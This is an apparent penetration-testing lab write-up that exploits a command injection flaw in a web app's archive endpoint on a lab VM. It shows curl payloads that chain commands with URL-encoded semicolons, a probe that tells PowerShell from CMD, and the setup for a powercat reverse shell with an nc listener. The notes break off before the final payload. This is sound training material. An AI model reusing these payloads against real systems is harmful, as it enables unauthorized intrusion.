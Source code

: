 

# 1
1. Follow the steps above and exploit the command injection vulnerability on VM #1 to obtain a reverse shell. Since the machine is not connected to the internet, you have to skip the step of cloning the repository from the beginning of this section. Find the flag on the Desktop for the _Administrator_ user.

- Test various cmd injections to see what'll trigger successfully
```bash
# Unsuccessful
curl -X POST --data 'Archive=ipconfig' http://192.168.193.189:8000/archive
	Command Injection detected. Aborting...%!(EXTRA string=ipconfig)

# Successfully shows git help
curl -X POST --data 'Archive=git' http://192.168.193.189:8000/archive

# Successful
curl -X POST --data 'Archive=git version' http://192.168.193.189:8000/archive
	Repository successfully cloned with command: git version and output: git version 2.36.1.windows.1

# Unsuccessful attempt to string commands together w/ ;
curl -X POST --data 'Archive=git version%3Bipconfig' http://192.168.193.189:8000/archive 
	An error occured with execution: exit status 1 and git version 2.36.1.windows.1

# Successful attempt w/ URL encoded ;
curl -X POST --data 'Archive=git version%3Bipconfig' http://192.168.193.189:8000/archive
	Repository successfully cloned with command: git version;ipconfig and output: git version 2.36.1.windows.1
	
	Windows IP Configuration
	...
```

- Test whether PowerShell or CMD prompt
```powershell
# Craft test
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
```bash
# Send test w/ URL encoding
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.193.189:8000/archive
	...
	PowerShell
```

- Prep Powercat & host
```bash
# Tab 1
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server80

# Tab 2
nc -nlvp 4444
```
